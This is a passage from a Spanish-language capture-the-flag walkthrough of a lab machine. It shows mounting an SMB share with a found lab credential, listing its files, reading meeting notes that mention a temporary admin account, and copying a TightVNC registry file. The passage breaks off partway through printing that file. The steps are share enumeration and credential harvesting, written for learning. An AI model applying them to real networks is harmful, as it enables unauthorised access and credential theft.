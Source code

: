 Encontramos diferentes Directorios .. asique procedemos a crearnos una montura en un directorio que vamos a crear llamado `mnt` para 
listar toda la informcion o data de manera mas comoda.

Creando la montura con `cifs -t` en el directorio `/mnt/` con `-o` le pasamos el nombre de usuario, la password, el dominio y le decimos con permisos de R y W (lectura y Escritura)  
```bash
mount -t cifs //10.10.10.182/Data /mnt/ -o username=r.thompson,password=rY4n5eva,domain=casscade.local,rw
```

Una vez montada la montura, procedemos a listar todo el contenido con el commando `TREE`:

```bash
tree /mnt                                                                                                                                                    

/mnt
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps
```

Vemos que en el archivo `Meetin_Notes_June_2018_html` encontramos cierta informacion sensible
```bash
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. "Username is TempAdmin (password is the same as the normal admin account password)." </p>
```

Prcedemos a Copiarnos del Recurso Compatido `Data/IT/Temp/s.smith`  el archivo `VNC Install.reg`

```bash
#cp /mnt/IT/Temp/s.smith/VNC\ Install.reg .
#ls                                                                                                                                                                            
'VNC Install.reg'
```

Procedemos a realizar un `cat`
```bash

# cat VNC\ Install.reg                                                                 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
```